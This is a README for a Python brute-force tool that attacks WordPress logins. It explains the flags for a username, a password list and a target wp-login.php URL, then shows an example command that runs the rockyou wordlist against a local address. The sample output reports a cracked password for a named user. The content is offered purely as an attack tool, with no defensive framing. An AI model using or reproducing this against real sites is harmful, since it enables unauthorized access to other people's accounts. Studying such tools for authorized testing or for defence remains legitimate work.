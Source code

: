 # python-bruteforce
python Bruteforce login script for wordpress 🚀🐱‍💻

* -p = file path to password list file 
* -u = valid usernae 
* -t = target address 

**target should should be look like this http://site.com/wp-login.php**

# example usage : 

$ python3 bf.py -u admin -p /usr/share/wordlist/rockyou.txt -t http://192.168.254.105/weblog/wp-login.php 

      ____      ____ _________  ____________  ____________                         
      \   \    /   / |_____   | |______     \ |_   ______|  
       \   \/\/   /  |     ___|   |    |   _/  |    ___|         
        \        /   |    |       |    |    \  |    |     
         \__/\__/    |____|       |_________/  |____|    

                ***********************
                * By : intrglctcMilk  *  
                *     -- @tmpts       * 
                *********************** 
     
     [+] Attacking [+]
     
    [+] **** PASSWORD FOUND ***** [+] =====> [wedgie57] for user unclestinky
    [-] Time lapsed : 0.792555570602417 seconds  [-] 
    [-] Number of attempts : 15 [-]



